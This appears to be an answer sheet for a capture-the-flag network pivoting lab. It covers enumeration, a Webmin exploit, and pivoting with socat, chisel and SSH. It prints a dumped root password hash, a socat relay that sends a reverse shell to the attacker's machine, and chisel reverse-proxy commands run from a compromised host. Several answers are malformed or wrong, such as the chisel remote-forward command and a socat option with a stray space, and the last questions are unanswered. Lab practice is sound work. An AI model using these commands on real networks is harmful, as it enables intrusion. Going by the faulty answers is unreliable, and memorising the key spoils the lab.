 ### Enumeration
#### How many of the first 15000 ports are open on the target?  
  4  
#### What OS does Nmap think is running?
centos  

#### Open the IP in your browser -- what site does the server try to redirect you to?
https://thomaswreath.thm/

#### Read through the text on the page. What is Thomas' mobile phone number?
+447821548812 

#### Look back at your service scan results: what server version does Nmap detect as running here?
MiniServ 1.890 (Webmin httpd)

#### What is the CVE number for this exploit?
CVE-2019-15107

### Exploitation

#### Run the exploit and obtain a pseudoshell on the target!
#### Which user was the server running as?
root

#### What is the root user's password hash?
i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1

#### What is the full path to this file?
/root/.ssh/id_rsa

####  Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?
tunneling

#### Research: Not covered in this Network, but good to know about. Which Metasploit Framework Meterpreter command can be used to create a port forward?
portfwd

#### What is the absolute path to the file containing DNS entries on Linux?
/etc/resolv.conf

#### What is the absolute path to the hosts file on Windows?
C:\Windows\System32\drivers\etc\hosts

#### How could you see which IP addresses are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash?
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done


### Proxychains and FoxyProxy
####  What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242?
socks4 127.0.0.1 4242  
#### What command would you use to telnet through a proxy to 172.16.0.100:23?
proxychains telnet 172.16.0.100 23
#### You have discovered a webapp running on a target inside an isolated network. Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)?
FP

#### If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
ssh -L 8000:127.0.0.1:80 user@172.16.0.50


### plink.exe
#### What tool can be used to convert OpenSSH keys into PuTTY style keys?
 puttygen

### Socat
####  Which socat option allows you to reuse the same listening port for more than one connection?
reuseaddr

### If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? Use TCP port 8000 for the server listener, and do not background the process.
  ./socat tcp-l:8000 tcp:172.16.0.200:443

#### What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
./socat tcp-l:2222, fork,reuseaddr tcp:172.16.0.100:22 &

### Chisel

#### Use port 4242 for the listener and do not background the process.
./chisel server -p 4242 --reverse

#### What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
./chisel client 172.16.0.200:4242 socks

#### How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
./chisel client 172.16.0.100:3306 R:33060:172.16.0.200 &

#### If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

### Sshuttle
#### How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16


#### What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?

#### You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
